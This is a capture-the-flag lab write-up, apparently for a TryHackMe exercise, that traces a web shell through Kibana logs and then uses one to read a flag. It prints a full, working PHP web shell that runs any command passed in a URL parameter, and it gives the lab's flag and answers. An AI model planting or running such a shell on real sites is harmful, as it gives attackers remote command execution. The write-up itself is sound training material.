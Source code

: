 # Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it.

**Connection to the Machine:**
To begin, a virtual machine and AttackBox were utilized for the analysis.

**To review the logs of the attack on Frosty Pines Resorts, we had to select the "frostypines-resorts" collection within ELK**

- accessed Kibana at `http://10.10.194.231:5601/`
- opened the `Discover` tab
- chose `"frostypines-resorts"`

**website for Operation Red:**  http://frostypines.thm

shell.php:

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

---

## Answers to the given questions:

BLUE: Where was the web shell uploaded to?

Answer format: /directory/directory/directory/filename.php

```
/media/images/rooms/shell.php
```

- Given date and time needed to be used when reviewing logs: between 11:30 and 12:00 on October 3rd 2024.
- searched `shell.php` and thus found where it was uploaded to
  
![image](https://github.com/user-attachments/assets/94f9915f-259e-473a-a6c2-cedd3663285a)

---

BLUE: What IP address accessed the web shell?

```
10.11.83.34
```

- saw the `clientip` that accessed the webshell

![image](https://github.com/user-attachments/assets/ba54d726-4699-494f-9402-9bd0fc7b570c)

---

RED: What is the contents of the flag.txt?

```
THM{Gl1tch_Was_H3r3}
```

- To access `http://frostypines.thm`, we needed to reference it within our hosts file.
- To do that, I executed the following command in a terminal `echo "MACHINE_IP frostypines.thm" >> /etc/hosts`

![image](https://github.com/user-attachments/assets/d2c4593c-ab74-4a8a-b4c2-e97021f9a87b)

![image](https://github.com/user-attachments/assets/c0cbbe66-73fa-4746-94dd-90858fdd46b4)

![image](https://github.com/user-attachments/assets/4fcf24df-ad9d-4b00-b0ee-6b51a9f00119)

![image](https://github.com/user-attachments/assets/ce2d8ec8-e512-4cb7-a077-1a50745f75b7)

![image](https://github.com/user-attachments/assets/386fbfa4-5750-473f-8e2d-d9d9ccf06cdb)

Used `ls` command

![image](https://github.com/user-attachments/assets/ea548f20-3892-4d82-a4b9-76cfff9deb90)

Used `cat flag.txt` command

![image](https://github.com/user-attachments/assets/b1d5324e-8117-401c-95b5-49d301968861)

Received the flag

![image](https://github.com/user-attachments/assets/92577952-04dd-414a-ae9f-418f336205b6)

---

